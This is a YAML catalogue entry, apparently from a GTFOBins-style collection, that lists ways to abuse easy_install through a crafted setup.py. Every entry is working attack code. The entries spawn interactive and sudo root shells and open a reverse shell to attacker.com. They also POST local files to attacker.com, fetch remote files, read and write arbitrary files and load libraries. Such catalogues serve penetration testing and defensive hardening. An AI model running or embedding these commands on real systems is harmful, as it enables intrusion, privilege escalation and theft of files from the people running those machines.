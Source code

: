 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        easy_install $TF
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp -d)
        echo 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")' > $TF/setup.py
        easy_install $TF
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' > $TF/setup.py
        easy_install $TF
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
        easy_install $TF
  download:
    - description: Fetch a remote file via HTTP GET request. The file path must be absolute.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=/tmp/file_to_save
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', '$(whereis python)', '-c', \"\"\"import sys;
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve('$URL', '$LFILE')\"\"\")" > $TF/setup.py
        pip install $TF
  file-write:
    - description: The file path must be absolute.
      code: |
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', 'python', '-c', 'open(\"/tmp/file_to_write\",\"w+\").write(\"DATA\")')" > $TF/setup.py
        easy_install $TF
  file-read:
    - description: The read file content is wrapped within program messages.
      code: |
        TF=$(mktemp -d)
        echo 'print(open("file_to_read").read())' > $TF/setup.py
        easy_install $TF
  load-library:
    - code: |
        TF=$(mktemp -d)
        echo 'from ctypes import cdll; cdll.LoadLibrary("lib.so")' > $TF/setup.py
        easy_install $TF
  sudo-enabled:
    - code: |
        TF=$(mktemp -d)
        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
        sudo easy_install $TF
---
```


